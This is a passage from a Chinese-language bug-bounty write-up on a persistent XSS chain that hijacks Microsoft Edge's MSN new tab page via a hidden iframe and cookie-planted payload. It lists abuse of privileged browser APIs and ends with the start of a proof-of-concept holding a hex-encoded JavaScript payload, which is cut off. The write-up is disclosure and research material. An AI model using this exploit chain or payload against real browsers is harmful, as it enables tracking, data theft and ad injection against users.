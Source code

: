 3、使用`chrome.authPrivate.getPrimaryAccountInfo(e=&gt;`{`console.dir(e)`}`)`获取用户隐私信息，比如邮箱地址以及账户等。

4、通过`chrome.embeddedSearch.searchBox.paste("file:///C://")`诱骗用户访问本地文件（需要诱骗用户按下回车键）。

5、使用`chrome.embeddedSearch.newTabPage.updateCustomLink(i,"http://www.g.com","http://www.g.com")`来编辑NTP中最常访问的站点（其中`i`为`0`到`9999`，确保我们已成功编辑所有页面）。

6、使用`chrome.ntpSettingsPrivate.setPref`来修改用户可能设置的各种NTP选项。

7、持续跟踪并伪造MSN内容。由于我们可以利用该bug持续控制NTP页面，因此可以用来跟踪用户行为（比如检查用户打开NTP的行为，或者解析已保存的最常访问站点），也可以像许多恶意扩展一样，注入虚假的广告。

虽然上述攻击场景有些比较繁琐，但足以证明我们可以完成很多攻击目标。

来总结一下完整的攻击链：

1、用户访问我们的恶意站点；

2、恶意站点通过隐藏的`IRAME`，向`technology.za.msn.com`发起POST请求，发送我们的XSS payload；

3、大约经过42秒后，`IFRAME`加载完成，我们成功在`technology.za.msn.com`上触发XSS payload；

4、利用`technology.za.msn.com`上的XSS创建cookie，其中包含`domain=.msn.com`以及`domainId`，后者包含我们的第二个payload；

5、当隐藏的`IFRAME`触发`onload`时，受害者被重定向到未能正确显示的NTP页面（`https://ntp.msn.com/compass/antp?locale=qab&amp;dsp=1&amp;sp=qabzz`）；

6、当`https://ntp.msn.com/compass/antp?locale=qab&amp;dsp=1&amp;sp=qabzz`加载完毕后，将渲染`domainId` cookie中包含的XSS payload；

7、XSS payload查找`localStorage`，将最终payload注入已缓存的HTML起始代码中。

此时我们已经成功控制了NTP页面，当用户打开新标签页时，就会持续触发最终payload。我通过新的MSRC漏洞报告网站将该bug反馈给微软，根据新Edge的奖励规则，我最终拿到了15,000美元的奖励。



## 0x04 PoC

由于存在各种字符限制，我在PoC中使用了大量编码，最终PoC如下：

```
&lt;html&gt;
&lt;head&gt;

&lt;body&gt;
&lt;iframe src="about:blank" id="qframe" name="msn" style="opacity:0.001"&gt;&lt;/iframe&gt;
&lt;h1&gt;Loading...(ETA 42secs)&lt;/h2&gt;
&lt;form id="qform" target="msn" action="http://technology.za.msn.com/pebble.asp?relid=172" method="post"&gt;
&lt;!--
Encoded payload (Executes in 'technology.za.msn.com')
---------------------------------------------------------------------
(qd = new Date()).setMonth(qd.getMonth() + 12);
document.cookie = "domainId=" + 
                  ('q"*' 
                  + unescape('%71%22%2a%66%75%6e%63%74%69%6f%6e%28%29%7b%66%6f%72%28%71%20%69%6e%20%6c%6f%63%61%6c%53%74%6f%72%61%67%65%29%7b%69%66%28%71%2e%69%6e%64%65%78%4f%66%28%27%6c%61%73%74%4b%6e%6f%77%6e%27%29%3e%2d%31%29%7b%77%69%74%68%28%71%6e%74%70%6f%62%6a%3d%4a%53%4f%4e%2e%70%61%72%73%65%28%6c%6f%63%61%6c%53%74%6f%72%61%67%65%5b%71%5d%29%29%7b%71%6e%74%70%6f%62%6a%2e%64%6f%6d%3d%75%6e%65%73%63%61%70%65%28%27%25%33%63%25%35%33%25%37%36%25%34%37%25%32%66%25%34%66%25%36%65%25%34%63%25%36%66%25%34%31%25%36%34%25%33%64%25%32%37%25%36%34%25%36%66%25%36%33%25%37%35%25%36%64%25%36%35%25%36%65%25%37%34%25%32%65%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%32%38%25%32%66%25%34%30%25%37%31%25%36%31%25%36%32%25%32%66%25%32%65%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%32%39%25%32%37%25%33%65%27%29%2b%71%6e%74%70%6f%62%6a%2e%64%6f%6d%7d%77%69%74%68%28%71%61%62%3d%71%6e%74%70%6f%62%6a%29%7b%6c%6f%63%61%6c%53%74%6f%72%61%67%65%5b%71%5d%3d%4a%53%4f%4e%2e%73%74%72%69%6e%67%69%66%79%28%71%61%62%29%7d%7d%7d%7d%28%29%2a%22%71') 
                  + '*"q') 
                  + ";expires=" 
                  + qd 
                  + ";domain=.msn.com;path=/";
```